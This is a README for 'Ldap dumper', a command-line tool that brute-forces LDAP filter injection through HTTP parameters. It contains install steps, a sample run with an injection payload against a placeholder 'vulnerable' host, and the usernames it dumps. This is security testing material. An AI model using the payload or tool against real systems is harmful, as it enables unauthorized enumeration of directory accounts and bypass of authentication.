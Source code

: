 Ldap dumper is a semi-fast tool to bruteforce unescaped user-input
concatenations to [LDAP filters](http://www.ietf.org/rfc/rfc1960.txt) over HTTP
parameters.

# Installation.

```
git clone git@github.com:droope/ldap-brute.git
cd ldap-brute/
pip install -r requirements.txt
```

# Sample run.

```
LMint-PC ldap-dumper # python ldap-dumper.py 'http://vulnerable/ldap/example2.php?name=%s)(cn=*))%%00&password=' 'AUTHENTICATED as'
INFO - Entering wildcard brute mode for URL 'http://vulnerable/ldap/example2.php?name=%s)(cn=*))%%00&password='.
INFO - Valid initial values found: ['a', 'h']
50...
100...
150...
200...
250...
300...
350...
400...
450...
Valid values found (2.918s total time, 468 total HTTP requests):

admin2
hacker
```

# Usage.

Please call `python ldap-brute.py --help` for more information, including examples.

# Contribute.

Feel free to submit pull requests. You can run the tests with 

```
python -m unittest discover
```
